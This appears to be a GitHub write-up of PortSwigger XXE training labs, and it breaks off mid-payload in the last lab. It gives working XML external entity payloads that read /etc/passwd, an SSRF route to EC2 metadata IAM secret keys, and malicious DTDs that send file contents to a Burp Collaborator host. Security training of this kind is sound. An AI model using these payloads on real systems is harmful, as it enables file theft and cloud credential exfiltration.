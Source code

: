 **Lab: Exploiting XXE using external entities to retrieve files**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the contents of the /etc/passwd file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4b659553-dd2e-4d5c-841a-1cab3610b62a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a68a9acb-e875-4d12-87af-d7e5c8796230)

**Lab: Exploiting XXE to perform SSRF attacks**

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
Replace the productId number with a reference to the external entity: &xxe;. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d38497ba-f4c7-4125-872a-63a90a358418)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b6f0cd29-de9b-41f8-9496-324addf1e1b4)

**Lab: Blind XXE with out-of-band interaction**

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
Replace the productId number with a reference to the external entity:

&xxe;
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8afc8214-9a2e-4d83-b374-cf2077bb0594)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1df95350-7428-4192-b893-2aa38c5ee0d8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/708a1c40-e077-46f2-9db4-6a5642732af1)

**Lab: Blind XXE with out-of-band interaction via XML parameter entities**

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8df209cf-4144-4121-986f-fa9f7eb59494)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/73f1997e-a9ff-4226-ac36-6039d0a88b6a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/94269059-7387-4362-a69f-e26947ca38a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/12bc1db7-bc89-4837-a888-298821baa798)

**Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Using Burp Suite Professional, go to the Collaborator tab.
Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
Place the Burp Collaborator payload into a malicious DTD file:

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1f4d0bee-a930-4eff-b4d9-decb8cddbd9a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/dd67acd8-378e-4809-b56c-1e5b2f61d286)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8bccc266-40c5-4318-a957-d4899d818712)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/a812d4f2-ec14-40c6-afa0-21df3c2bae30)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eec5b5f6-6fa2-43d5-80a9-608676972f7c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/55c1342e-23d2-4205-89f2-0d73c0931f2c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/c5281175-2a58-4266-bac1-e9ba8bab0bc6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/41731873-a46d-4ab5-abb9-0073d67d1c7c)

**Lab: Exploiting blind XXE to retrieve data via error messages**

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Click "Go to exploit server" and save the following malicious DTD file on your server:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

Click "View exploit" and take a note of the URL for your malicious DTD.
You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
You should see an error message containing the contents of the /etc/passwd file.


**Lab: Exploiting XInclude to retrieve files**

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
Set the value of the productId parameter to:

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" 
